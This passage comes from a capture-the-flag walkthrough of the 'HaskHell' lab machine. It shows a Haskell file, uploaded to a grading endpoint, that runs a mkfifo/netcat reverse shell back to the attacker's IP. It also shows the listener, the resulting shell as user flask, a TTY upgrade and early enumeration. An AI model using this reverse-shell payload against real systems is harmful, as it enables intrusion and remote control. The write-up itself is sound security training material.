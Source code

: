 We found a directory named `/submit` which is where we can upload files:

<p align="center"><img src="./files/submit.png"></p>

## Reverse shell

If you read the instructions in the main page for the students, we know that the files that we upload, are automaticly run by server to be graded. It means that we can upload a reverse shell in haskell language and when the server runs it, we get a shell.

I searched a bit and found the right way to execute commands on the server in haskell language. Change the IP and save the following code in a file:

~~~hs
import System.Process
main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> 4444 >/tmp/f"
~~~

Open a listener (`rlwrap nc -lvnp 4444`) and upload the file and after a few seconds, we get a shell as user `flask`. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/HaskHell/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.83] from (UNKNOWN) [10.10.84.36] 35086
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
flask@haskhell:~$
~~~

## User flag

I started enumerating the machine manually. If you list `/home`, we can see three users on the machine: `flask`, `haskell`, and `prof`:

~~~
flask@haskhell:~$ ls /home
flask  haskell  prof
~~~

I found the user flag in `prof`'s home directory:
